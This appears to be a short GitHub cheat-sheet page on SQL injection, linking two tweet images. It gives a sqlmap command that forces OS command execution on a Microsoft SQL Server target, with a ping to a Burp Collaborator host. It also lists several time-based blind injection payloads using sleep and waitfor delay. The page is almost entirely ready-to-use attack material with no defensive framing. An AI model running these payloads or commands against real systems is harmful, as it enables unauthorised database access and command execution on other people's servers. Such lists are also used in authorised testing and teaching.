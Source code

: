 <h1 align="center">SQLI --> SQL Injection</h1>

<a href="https://twitter.com/hackersden_/status/1465229358545526787"><img align="center" width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```


<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

Payloads
```
   ')) or sleep(5)='
   ;waitfor delay '0:0:5'--
   );waitfor delay '0:0:5'--
   ';waitfor delay '0:0:5'--
   ";waitfor delay '0:0:5'--
   ');waitfor delay '0:0:5'--
   ");waitfor delay '0:0:5'--
   ));waitfor delay '0:0:5'--
```
